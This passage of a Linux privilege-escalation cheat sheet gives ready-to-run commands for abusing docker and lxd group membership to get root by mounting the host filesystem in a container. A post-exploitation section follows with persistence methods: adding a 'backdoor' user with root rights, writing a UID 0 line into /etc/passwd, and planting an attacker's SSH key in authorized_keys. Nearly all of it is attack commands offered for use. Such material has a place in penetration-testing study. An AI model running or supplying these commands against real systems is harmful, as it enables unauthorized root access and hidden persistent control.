 ## Docker Group Membership

### Check Docker Group
```bash
groups
grep docker /etc/group
```

### Exploit Docker Group
```bash
# If you are a member of the docker group:
docker run -v /:/mnt -it alpine chroot /mnt sh
```

## LXC/LXD Group Membership

### Check LXC/LXD Group
```bash
groups
grep "lxc\|lxd" /etc/group
```

### Exploit LXD Group
```bash
# If you are a member of the lxd group:
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```

## Post-Exploitation

### Maintaining Access

#### Create a Backdoor User
```bash
# Add a new user with root privileges
useradd -m -s /bin/bash -G sudo backdoor
passwd backdoor

# Or directly modify /etc/passwd if writable
echo "backdoor:x:0:0:backdoor:/home/backdoor:/bin/bash" >> /etc/passwd
echo "backdoor:password123" | chpasswd
```

#### SSH Backdoor
```bash
# Generate SSH key pair on your attacker machine
ssh-keygen -f ./backdoor_key

# Add your public key to authorized_keys on target
mkdir -p ~/.ssh
echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
